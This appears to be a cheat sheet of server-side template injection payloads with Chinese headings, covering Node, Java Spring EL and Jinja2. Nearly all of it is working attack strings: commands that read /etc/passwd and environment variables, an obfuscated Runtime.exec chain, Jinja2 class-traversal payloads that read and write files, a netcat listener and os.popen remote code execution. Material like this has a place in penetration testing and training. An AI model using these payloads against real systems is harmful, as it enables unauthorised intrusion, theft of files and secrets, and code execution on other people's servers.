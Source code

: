 	#{root.process.mainModule.require('child_process').spawnSync('cat', ['/etc/passwd']).stdout}
 #### JAVA
  	基本注入
	${7*7}
	${{7*7}}
	${class.getClassLoader()}
	${class.getResource("").getPath()}
	${class.getResource("../../../../../index.htm").getContent()}
	检索系统的环境变量
	${T(java.lang.System).getenv()}
	读取/etc/passwd
	${T(java.lang.Runtime).getRuntime().exec('cat etc/passwd')}

	${T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(99).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(112)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(119)).concat(T(java.lang.Character).toString(100))).getInputStream())}
 #### Jinja2
  	基本注入
	{{4*4}}[[5*5]]
	{{7*'7'}} would result in 7777777
	{{config.items()}}

	{% extends "layout.html" %}
	{% block body %}
	  <ul>
	  {% for user in users %}
	    <li><a href="{{ user.url }}">{{ user.username }}</a></li>
	  {% endfor %}
	  </ul>
	{% endblock %}
	debug
	<pre>{% debug %}</pre>
	转储所有使用的类
	{{ [].class.base.subclasses() }}
	{{''.class.mro()[1].subclasses()}}
	{{ ''.__class__.__mro__[2].__subclasses__() }}
	转储所有配置变量
	{% for key, value in config.iteritems() %}
	    <dt>{{ key|e }}</dt>
	    <dd>{{ value|e }}</dd>
	{% endfor %}
	远程读取文件
	# ''.__class__.__mro__[2].__subclasses__()[40] = File class
	{{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read() }}
	{{ config.items()[4][1].__class__.__mro__[2].__subclasses__()[40]("/tmp/flag").read() }}
	# https://github.com/pallets/flask/blob/master/src/flask/helpers.py#L398
	{{ get_flashed_messages.__globals__.__builtins__.open("/etc/passwd").read() }}
	远程写入文件
	{{ ''.__class__.__mro__[2].__subclasses__()[40]('/var/www/html/myflaskapp/hello.txt', 'w').write('Hello here !') }}
	远程代码执行
	监听nc -lnvp 8000
	通过调用 os.popen().read() 来利用 SSTI
	{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('id').read() }}
